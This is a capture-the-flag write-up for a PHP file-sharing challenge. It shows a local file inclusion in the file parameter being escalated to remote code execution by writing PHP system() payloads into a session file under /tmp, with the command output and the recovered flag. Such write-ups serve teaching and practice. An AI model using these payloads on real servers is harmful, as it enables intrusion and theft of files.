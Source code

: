 # Filestorage
Web

> Try out my new file sharing site!
> 
> http://filestorage.tamuctf.com

We are presented with a name option initially. Let's just put whatever for now (injections on the main page won't work, and the XSS is useless).

We are given 3 files. When we click on them, it takes us to `/index.php?file=<file>`, an obvious LFI vulnerability. Now we just have to find a way to get RCE.

We can get RCE by using PHP's sessions. I followed [this article](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/).

We know that this server runs PHP7 from headers that are given to us.

However, visiting `/var/lib/php/sessions/sess_<sessid>` was useless.

Apparently `/tmp` is the default according to [this article](https://canvas.seattlecentral.edu/courses/937693/pages/10-advanced-php-sessions).

So, our cookie is stored under `/tmp/sess_<sessid>`

When we use LFI to visit that, we have our cookie coming back to us, unfiltered. We can then run commands to get the flag, by setting our name to malicious PHP code.

`<?php system("ls"); ?>` gives us:
`name|s:21:"files index.html index.php ";`

`<?php system("find / -name 'flag*'"); ?>` gives us:
`name|s:40:"/sys/devices/pnp0/00:06/tty/ttyS0/flags /sys/devices/platform/serial8250/tty/ttyS2/flags /sys/devices/platform/serial8250/tty/ttyS3/flags /sys/devices/platform/serial8250/tty/ttyS1/flags /sys/devices/virtual/net/lo/flags /sys/devices/virtual/net/eth0/flags /proc/sys/kernel/sched_domain/cpu0/domain0/flags /proc/sys/kernel/sched_domain/cpu1/domain0/flags /flag_is_here /flag_is_here/flag.txt ";`

`<?php system("cat /flag_is_here/flag.txt"); ?>` gives `name|s:46:"gigem{535510n_f1l3_p0150n1n6}";`

Flag: `gigem{535510n_f1l3_p0150n1n6}`

